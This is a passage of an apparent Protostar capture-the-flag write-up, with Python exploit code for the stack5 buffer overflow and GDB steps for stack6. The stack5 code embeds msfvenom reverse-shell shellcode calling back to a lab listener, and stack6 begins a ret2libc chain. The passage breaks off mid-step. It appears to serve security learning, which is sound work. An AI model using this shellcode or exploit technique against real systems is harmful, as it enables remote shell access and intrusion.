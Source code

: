         shellcode =  "\x90"*30
        #msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.3.106 LPORT=4444 -b \x00 -f py
        shellcode += "\xda\xd1\xbe\xd9\xba\xd5\x41\xd9\x74\x24\xf4\x58\x29"
        shellcode += "\xc9\xb1\x12\x31\x70\x1a\x83\xc0\x04\x03\x70\x16\xe2"
        shellcode += "\x2c\x8b\x0e\xb6\x2d\xbf\xf3\x6a\xdb\x42\x44\xea\x92"
        shellcode += "\xa2\x69\x73\x33\x7f\x1a\xb4\x93\x83\xb0\x5c\xe1\x83"
        shellcode += "\x55\xc1\x6c\x62\x3f\x9f\x36\x35\x91\x08\x4f\x54\x52"
        shellcode += "\x7a\xcf\x25\x52\x3d\xcf\x59\x5d\x3d\x46\xba\x9c\xd6"
        shellcode += "\x54\xfc\xfc\x25\xd4\x83\xcf\xb6\x4f\xf5\x31\x2f\xd9"
        shellcode += "\x09\x02\x53\xe8\x92\x9d\xb5"
        
        ret=0xbffff780
        payload = 'A'*76+struct.pack("<I",ret)+shellcode
        f=open("/tmp/tmp.txt","a+")
        f.write(payload)
        f.close()
        input=payload
        #print input
        os.system("echo '%s' | /opt/protostar/bin/stack5" % input)
        ------------end-------------
        use msf listen on 4444 with the same payload
        python stack5.py
        gdb -q -c co[tab]
        output:permission denied
        ls -al /tmp/co[tab]
        output:
        -rw-------  1 root user 163840 Jun  9 01:19 core.11.stack5.6174
        su
        godmode
        chmod 777 /tmp/co[tab]
        su - user
        user
        bash
        cd /tmp
        gdb -q -c co[tab]
        x/20x $esp
        ----output:-------
        0xbffff850:     0x90909090      0x90909090      0x90909090      0x90909090
        0xbffff860:     0x90909090      0x90909090      0x90909090      0xd1da9090
        0xbffff870:     0xd5bad9be      0x2474d941      0xc92958f4      0x703112b1
        ------end---------
        vi /tmp/stack5.py
        ----------stackt.py on ret---------
        ret=0xbffff850
        ----------------end----------------
        python stack5.py
        msf receive a shell from protostar

#### 0x06 stack6
    mykey:
        构造如下链:
        'A'*80+system_addr+exit_addr+command_addr+command(='/bin/sh\x00')
        gdb stack6
        disas getpath
        b*getpath+117(at ret in func getpath)
        r
        AAAAAAAA
        x/20x $esp-80(make sure it is 0x41414141)
        output:
        0xbffff6dc:     0x41414141      0x41414141      0xb7ec6100      0xbffff708
        command_addr=0xbffff7cc+80+4+4+4=0xbffff828
        print system
        output:0xb7ecffb0
        print exit